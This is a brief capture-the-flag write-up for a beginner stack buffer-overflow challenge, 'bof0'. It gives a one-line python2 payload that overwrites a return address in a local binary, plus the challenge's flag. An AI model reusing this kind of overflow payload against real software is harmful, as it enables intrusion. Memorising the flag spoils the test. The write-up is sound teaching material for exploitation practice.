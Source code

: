 # bof0

# Writeup

- Payload:  
```bash
python2 -c "import struct;print (76*'A'+struct.pack('I',0x08049230))" | ./chall
```   

Note: Use python2

# Flag

`shellmates{B0f_cAN_oVerWriT3_Ret_4dr_th4T$_n0T_4Ll_Th0uGH}`

``